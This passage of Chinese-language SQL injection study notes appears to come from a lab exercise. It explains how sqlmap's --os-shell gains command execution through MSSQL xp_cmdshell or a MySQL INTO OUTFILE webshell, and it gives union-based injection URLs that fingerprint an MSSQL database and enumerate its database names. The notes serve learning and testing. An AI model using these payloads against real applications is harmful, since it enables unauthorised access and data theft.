 1.判断xp_cmdshell是否可用  
2.重新开启xp_cmdshell存储过程  
3.接收命令调用xp_cmdshell执行并存储到sqlmapoutput表的data字段中。  
4.在利用联合查询查询sqlmapoutput表data字段的数据。

### sqlmap --os-shell 在mysql数据库执行命令原理：

1.利用mysql备份功能 into outfile/dumpfile 写文件上传功能的木马。  
2.利用文件上传功能马上传命令执行的马  
3.利用命令马传参cmd执行系统命令

## 联合查询

判断数据库类型

http://192.168.100.225/less-2.asp?id=1 and exists(select * from sys.objects)--+

http://192.168.100.225/less-2.asp?id=1 and exists (select count(*) from sysobjects)--+

​![image](assets/image-20240905170044-crc3db8.png)​

1. 查询数据库名

    http://192.168.100.225/less-2.asp?id=0 union select top 1 '1',db_name(),name from sys.databases where name not in(select top 2 name from sys.databases)--+

    ​![image](assets/image-20240905170006-5hgne4e.png)​

    控制top返回行数遍历库名
